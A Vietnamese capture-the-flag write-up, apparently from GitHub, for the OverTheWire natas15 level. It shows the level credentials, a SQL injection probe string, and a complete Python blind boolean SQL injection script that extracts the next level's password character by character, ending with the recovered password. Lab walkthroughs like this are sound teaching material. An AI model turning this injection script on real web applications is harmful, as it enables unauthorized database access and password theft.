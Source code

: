 ## 🕵️‍♂️ Challenge:
Username: natas15  
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx  
URL: http://natas15.natas.labs.overthewire.org  

<img width="1494" height="530" alt="image" src="https://github.com/user-attachments/assets/61e12ac3-445e-4a14-a490-d3c612f6c9af" />

## 📝 Solution: 

<img width="1332" height="972" alt="image" src="https://github.com/user-attachments/assets/760165f4-266d-4514-b3f1-f683accb58e3" />


Như thử thách trước, lần này có thể vẫn là lỗ hỏng SQL injection, kiểm tra lại bằng cách thử nhập chuỗi sau vào ô truy vấn:  

> "OR 1=1 #

<img width="750" height="298" alt="image" src="https://github.com/user-attachments/assets/c5112f68-aeae-42ec-8ec5-000a8976a6e6" />

Sau khi kiểm tra user name vừa nhập, trang báo về:  

<img width="828" height="254" alt="image" src="https://github.com/user-attachments/assets/70f1bd9d-b3ac-4d3b-8c56-49cb9455bbdb" />

Vậy là lỗ hỏng SQL injection, nhưng bài này ko trả về mật khẩu luôn, mà ta phải đi tìm.  

Ta viết script dùng blind boolean SQL injection để dò từng kí tự của password cho đến khi đủ 32 kí tự.  

```python
#!/usr/bin/env python3
import requests
BASE_URL="http://natas15.natas.labs.overthewire.org/index.php?debug"
AUTH=("natas15","SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")
T="natas16"
MAX=32
S="This user exists."
s=requests.Session()
def a(p): return S in s.post(BASE_URL,data={"username":p},auth=AUTH).text
def c(i):
    if not a(f'{T}" AND ASCII(SUBSTRING(password,{i},1)) > 31 -- '): return None
    lo,hi=32,127
    while lo<hi:
        m=(lo+hi)//2
        if a(f'{T}" AND ASCII(SUBSTRING(password,{i},1)) > {m} -- '): lo=m+1
        else: hi=m
    if a(f'{T}" AND ASCII(SUBSTRING(password,{i},1)) = {lo} -- '): return chr(lo)
    for alt in (lo-1,lo+1):
        if 32<=alt<=126 and a(f'{T}" AND ASCII(SUBSTRING(password,{i},1)) = {alt} -- '): return chr(alt)
    return chr(lo)
pw=""
for i in range(1,MAX+1):
    ch=c(i)
    if ch is None: break
    pw+=ch
    print(i,ch,pw)
print("Result:",pw)

```
<img width="583" height="700" alt="image" src="https://github.com/user-attachments/assets/5d77f9e1-8ee0-4298-8224-b9b7f2ffe7e3" />

>### 🎯 Password: ***hPkjKYviLQctEW33QmuXL6eDVfMW4sGo***
